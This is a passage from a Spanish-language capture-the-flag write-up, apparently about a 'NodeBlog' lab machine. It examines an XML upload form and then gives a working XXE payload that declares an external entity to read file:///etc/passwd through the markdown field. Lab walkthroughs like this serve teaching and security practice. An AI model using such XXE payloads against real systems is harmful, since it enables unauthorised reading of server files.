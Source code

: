 ```
Invalid XML Example: Example DescriptionExample Markdown
```

Al paracer esta esperando un XML con una estructura, si le damos Ctrl + U para ver el codigo fuente, vamos a poder ver la estructura que espera:

```ruby
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

```xml
<post>
    <title>Example Post</title>
    <description>Example Description</description>
    <markdown>Example Markdown</markdown>
</post>
```

Asi que ahora subiremos un XML con esa estructura para probar, y vean que nos lo interpreta:

![](/assets/img/nodeBlog/7.png)

En este punto como sabemos que podemos subir archivos XML y este sera interpretado, intentaremos probar XXE pero no centraremos en leer archivos de la maquina de esta manera:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY archivo SYSTEM "file:///etc/passwd"> ]>
<post>
    <title>ola</title>
    <description>descripcion ejemplo</description>
    <markdown>&archivo;</markdown>
</post>
```
